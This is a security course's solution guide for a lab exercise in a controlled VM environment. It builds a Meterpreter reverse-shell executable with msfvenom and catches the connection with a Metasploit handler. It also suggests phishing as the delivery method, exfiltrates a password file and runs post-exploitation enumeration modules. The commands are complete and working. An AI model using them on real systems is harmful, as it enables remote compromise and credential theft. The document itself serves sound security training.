






## Solution Guide: Meterpreter Shells

The goal of this activity was to practice using Metasploit modules and payloads.

---

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit. 

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

   -  You might have targeted an employee with a phishing email using information obtained from their LinkedIn and Facebook profiles.

   - The targeted employee opened the email that contained your malware called `hack.exe`, which installed it on to their local hard drive.

      
3. In DVW10, verify that `hack.exe` is on the victim machine. 

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.

     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed.
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole:

         - `msfconsole`

      - Load the `exploit/multi/handler`:

         - `use exploit/multi/handler`

      - Set the payload to `windows/meterpreter/reverse_tcp`:

         - `set payload windows/meterpreter/reverse_tcp`

        

      - View the payload's options:

         - `show options`

      - Set `LHOST` to the IP of your Kali machine:

         - `set LHOST 192.168.0.8`
   
      - Set the `LPORT` to `4444` of your Kali machine:

         -  `set LPORT 4444`

          

      - Verify the option settings took effect:

         - `show options`

         

5. Run the exploit:

   - `exploit` or `run`

    **Note:** If you do not get a Meterpreter shell after a minute or two, go to the DVW10 machine and double-click on the `hack.exe` file to restart the listener.
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host:

      - `search -f <filename>`

      - `search -h`

      

7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`:

      -  `search -f *.jpg`

       
   - Search the remote filesystem for a file called `password`:

      - `search -f password*`

   - Exfiltrate this file from the DVW10 VM:
     
      - `download 'C:\Users\IEuser\Documents\password.txt'`

       

### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine:

   - `run post/windows/gather/enum_shares`

   - Results show there are not shares running on the VM. 

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM:

     -  `run post/windows/gather/checkvm`
     
     -  Results show that it is a Hyper-V VM. 

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer:

    - `net users`

     

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
